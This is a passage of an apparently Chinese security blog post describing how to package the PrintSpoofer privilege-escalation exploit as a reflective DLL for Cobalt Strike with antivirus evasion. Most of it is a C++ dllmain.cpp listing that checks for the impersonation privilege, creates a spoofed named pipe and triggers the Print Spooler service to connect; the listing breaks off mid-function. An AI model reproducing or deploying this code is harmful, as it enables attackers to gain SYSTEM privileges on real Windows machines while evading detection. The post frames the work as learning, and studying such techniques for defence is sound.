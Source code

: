 然后思路断了，功力不够。正好逛到Crisprx师傅的反射注入DLL结合CS免杀，用PrintSpooler实现的。学习下思路

使用的反射DLL注入项目的地址，[stephenfewer/ReflectiveDLLInjection:](https://github.com/stephenfewer/ReflectiveDLLInjection)，并且一般CS中编写反射注入DLL基本都是使用的该项目

1. 导入相关的头文件：ReflectiveDllInjection.h、ReflectiveLoader.cpp、ReflectiveLoader.h
2. 将原来部分提权的操作放到`dllmain.cpp`中，主要是放在`DLL_PROCESS_ATTACH`中
3. 这里贴下`dllmain.cpp`的代码：

```
#include "ReflectiveLoader.h"
#include "PrintSpoofer.h"
#include <iostream>
 
extern HINSTANCE hAppInstance;
EXTERN_C IMAGE_DOS_HEADER __ImageBase;
 
BOOL PrintSpoofer() {
    BOOL bResult = TRUE;
    LPWSTR pwszPipeName = NULL;
    HANDLE hSpoolPipe = INVALID_HANDLE_VALUE;
    HANDLE hSpoolPipeEvent = INVALID_HANDLE_VALUE;
    HANDLE hSpoolTriggerThread = INVALID_HANDLE_VALUE;
    DWORD dwWait = 0;
 
    if (!CheckAndEnablePrivilege(NULL, SE_IMPERSONATE_NAME)) {
        wprintf(L"[-] A privilege is missing: '%ws'\n", SE_IMPERSONATE_NAME);
        bResult = FALSE;
        goto cleanup;
    }
 
    wprintf(L"[+] Found privilege: %ws\n", SE_IMPERSONATE_NAME);
 
    if (!GenerateRandomPipeName(&pwszPipeName)) {
        wprintf(L"[-] Failed to generate a name for the pipe.\n");
        bResult = FALSE;
        goto cleanup;
    }
 
    if (!(hSpoolPipe = CreateSpoolNamedPipe(pwszPipeName))) {
        wprintf(L"[-] Failed to create a named pipe.\n");
        bResult = FALSE;
        goto cleanup;
    }
 
    if (!(hSpoolPipeEvent = ConnectSpoolNamedPipe(hSpoolPipe))) {
        wprintf(L"[-] Failed to connect the named pipe.\n");
        bResult = FALSE;
        goto cleanup;
    }
 
    wprintf(L"[+] Named pipe listening...\n");
 
    if (!(hSpoolTriggerThread = TriggerNamedPipeConnection(pwszPipeName))) {
        wprintf(L"[-] Failed to trigger the Spooler service.\n");
        bResult = FALSE;
        goto cleanup;
    }
 
    dwWait = WaitForSingleObject(hSpoolPipeEvent, 5000);
    if (dwWait != WAIT_OBJECT_0) {
        wprintf(L"[-] Operation failed or timed out.\n");
        bResult = FALSE;
        goto cleanup;
    }
```